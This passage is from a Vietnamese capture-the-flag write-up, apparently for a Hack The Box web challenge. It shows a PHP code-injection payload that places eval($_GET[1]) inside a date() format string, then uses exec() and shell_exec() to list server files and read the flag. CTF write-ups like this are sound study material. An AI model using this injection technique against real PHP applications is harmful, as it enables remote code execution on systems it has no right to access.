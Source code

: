 Nên ta cần phải chèn thêm một hàm eval khác để có thể thực thi được :smiley: 

Và `eval()` cũng có thể return giá trị nên ta có thể chèn `eval()` vào `${}`

![image](https://hackmd.io/_uploads/H1-KYnjET.png)

Ta cần phải chèn payload để đoạn code phải trông như thế này

```php=
$time = date("{eval($_GET[1])}", strtotime("+3 day +20 hour +42 minute +63 second"));
```

Và ta sẽ truyền dòng code mà mình muốn thực thi vào tham số `1`

Payload:

```
${eval($_GET[1])}&1=echo%20"AAAAAA";
```
![image](https://hackmd.io/_uploads/r1qO52sEa.png)

Bingo :grinning_face_with_star_eyes: 

## Payload tìm flag

Mình chỉ cần thực thi lệnh `exec()` để tìm flag trên server. Nhưng kết quả có làm mình hơi thắc mắc

Mình thực hiện câu lệnh `echo(exec('ls /'));`

![image](https://hackmd.io/_uploads/SyNIh2iEa.png)

Nhưng kết quả lại chỉ có `www` trong khi trên server lại có rất nhiều file :face_with_monocle: 

![image](https://hackmd.io/_uploads/B1f4a3s4a.png)

Và mình tìm hiểu được rằng `exec()` sẽ chỉ trả về dòng cuối cùng trong output, còn `shell_exec()` sẽ trả về tất cả output dưới dạng 1 chuỗi :3 

![image](https://hackmd.io/_uploads/SJAc63oN6.png)

Tìm thấy file flag rồi thì cat flag thui

![image](https://hackmd.io/_uploads/HyTzAhoVp.png)

# 5. Lấy flag ở server HTB

Làm tương tự với server của HTB

![image](https://hackmd.io/_uploads/BypGlTs46.png)

![image](https://hackmd.io/_uploads/SyQUgTi4a.png)

:::success
**Solved** :+1: 
:::
